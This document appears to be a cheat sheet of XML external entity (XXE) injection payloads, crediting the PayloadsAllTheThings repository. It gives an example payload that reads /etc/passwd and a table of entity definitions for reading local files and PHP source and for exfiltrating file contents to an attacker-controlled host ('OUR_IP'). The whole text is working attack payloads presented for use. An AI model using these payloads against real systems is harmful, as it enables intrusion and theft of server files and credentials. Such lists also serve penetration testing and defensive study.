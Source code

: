 ## Resource: https://github.com/swisskyrepo/PayloadsAllTheThings

## XXE Injection

### Example payload:

      <!DOCTYPE foo [

      <!ELEMENT foo ANY >

      <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

      <contact><name>&xxe;</name><email>test@mail.com</email><message>whatever</message></contact>


| **Code**   | **Description**   |
| --------------|-------------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |
